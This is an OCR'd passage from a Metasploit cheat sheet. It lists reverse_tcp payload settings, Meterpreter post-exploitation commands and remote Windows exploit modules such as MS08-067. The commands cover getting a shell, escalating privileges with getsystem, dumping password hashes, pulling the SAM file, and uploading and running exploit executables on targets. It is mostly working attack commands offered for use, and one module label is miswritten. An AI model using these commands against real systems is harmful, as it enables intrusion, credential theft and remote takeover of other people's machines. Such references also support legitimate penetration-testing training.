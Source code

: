 ### **Windows VNC Meterpreter payload**

|**Command**|**Description**|
| :-: | :-: |
|<p>set payload windows/vncinject/reverse\_tcp</p><p>set ViewOnly false</p>|Meterpreter Windows VNC Payload|

### **Linux Reverse Meterpreter payload**

|**Command**|**Description**|
| :-: | :-: |
|set payload linux/meterpreter/reverse\_tcp|Meterpreter Linux Reverse Payload|

## **Meterpreter Cheat Sheet**
Useful meterpreter commands.

|**Command**|**Description**|
| :-: | :-: |
|upload file c:\\windows|Meterpreter upload file to Windows target|
|download c:\\windows\\repair\\sam /tmp|Meterpreter download file from Windows target|
|download c:\\windows\\repair\\sam /tmp|Meterpreter download file from Windows target|
|execute -f c:\\windows\temp\exploit.exe|Meterpreter run .exe on target – handy for executing uploaded exploits|
|execute -f cmd -c|Creates new channel with cmd shell|
|ps|Meterpreter show processes|
|shell|Meterpreter get shell on the target|
|getsystem|Meterpreter attempts priviledge escalation the target|
|hashdump|Meterpreter attempts to dump the hashes on the target|
|portfwd add –l 3389 –p 3389 –r target|Meterpreter create port forward to target machine|
|portfwd delete –l 3389 –p 3389 –r target|Meterpreter delete port forward|

## **Common Metasploit Modules**
### **Remote Windows Metasploit Modules (exploits)**

|**Command**|**Description**|
| :-: | :-: |
|use exploit/windows/smb/ms08\_067\_netapi|MS08\_067 Windows 2k, XP, 2003 Remote Exploit|
|use exploit/windows/dcerpc/ms06\_040\_netapi|MS08\_040 Windows NT, 2k, XP, 2003 Remote Exploit|
|use exploit/windows/smb/<br>ms09\_050\_smb2\_negotiate\_func\_index|MS09\_050 Windows Vista SP1/SP2 and Server 2008 (x86) Remote Exploit|

